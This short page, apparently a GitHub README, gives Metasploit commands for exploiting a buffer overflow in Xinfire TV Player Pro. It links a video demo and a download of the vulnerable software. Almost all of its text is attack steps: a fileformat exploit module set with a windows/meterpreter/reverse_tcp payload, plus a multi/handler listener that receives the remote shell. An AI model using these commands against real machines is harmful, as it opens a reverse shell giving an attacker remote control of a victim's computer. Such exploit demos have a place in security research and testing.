 use exploit/windows/fileformat/xinfire_tv_player
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost (IP of Local Host)
exploit

Video demo Buffer Overflow Xinfire TV Player Pro
https://youtu.be/ivBPLheOWy4


downloads software
https://download.cnet.com/Xinfire-TV-Player-Pro/3000-13632_4-75986988.html
